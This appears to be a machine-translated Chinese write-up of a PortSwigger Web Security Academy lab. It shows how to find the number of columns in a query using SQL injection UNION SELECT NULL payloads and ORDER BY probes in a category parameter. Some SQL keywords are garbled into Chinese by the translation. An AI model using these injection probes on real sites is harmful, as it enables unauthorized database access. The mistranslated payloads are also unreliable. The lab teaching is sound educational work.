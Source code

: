 # PortSwigger Web 安全实验室:SQL 注入联合攻击，确定查询返回的列数

> 原文：<https://infosecwriteups.com/portswigger-web-security-lab-sql-injection-union-attack-determining-the-number-of-columns-5f0a4fa95e5e?source=collection_archive---------2----------------------->

您好，在本文中，我们将讨论 SQL 注入联盟攻击的解决方案，确定 Port Swigger Web Security Lab 中查询实验室返回的列数。

![](img/c31256f8e0a526d0eaf7876de424a322.png)

我们记得在类别参数中有 SQL 注入。我们可以使用以下有效负载来检测一个表中有多少列:

联合选择 1，2，3，…, —

UNION SELECT NULL，NULL，NULL，。—

+UNION+SELECT+NULL，NULL，NULL —

+联合+选择+1，2，3 —

对于解决方案，应该继续添加该值，直到错误消息消失，或者直到出现包含空值的内容。

![](img/b7bad7d5d0aef8707d6e4b9b01f01890.png)![](img/0766ca192f5cb53fcfd35cf8313f28ea.png)![](img/fb4c288811b6c2dfd009f11ec176fc5f.png)

或者我们可以尝试使用 order by 来检测列的数量。如果我们得到一个错误，我们可能会认为我们已经超过了列数。

按 1 排序—

按 2 排序—

按 3 排序—

来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。 [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*